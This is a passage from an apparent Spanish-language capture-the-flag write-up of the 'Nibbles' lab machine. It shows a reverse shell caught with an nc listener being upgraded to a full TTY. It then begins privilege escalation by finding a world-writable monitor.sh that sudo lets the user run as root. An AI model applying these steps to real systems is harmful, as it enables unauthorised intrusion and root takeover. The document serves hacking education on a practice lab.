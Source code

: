 <br>

6 - Hacemos más interactiva la shell:

```bash
$ script /dev/null -c bash 
Script started, file is /dev/null
nibbler@Nibbles:/$ ^Z
[1]  + 7276 suspended  nc -lvnp 1234
❯ stty raw -echo;fg
[1]  + 7276 continued  nc -lvnp 1234
                                    reset xterm
nibbler@Nibbles:/$ export SHELL=/bin/bash
nibbler@Nibbles:/$ export TERM=xterm
nibbler@Nibbles:/$ stty cols 207 rows 47
```

## ESCALADA DE PRIVILEGIOS

Nos dirigimos a la carpeta de nustro usuario `/home/nibbler`:

```bash
nibbler@Nibbles:/home/nibbler$ ls 
personal.zip  user.txt
```

<br>

1 - Descomprimimos el archivo `personal.zip`:

```bash
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
```

<br>

2 - Este zip tenía un script llamado `monitor.sh` en su interior con el permiso `777` asignado:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

<br>

3 - Si revisamos que permisos tenemos  con `sudo -l` nos encontramos con que podemos ejecutar como root el script `monitor.sh`

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
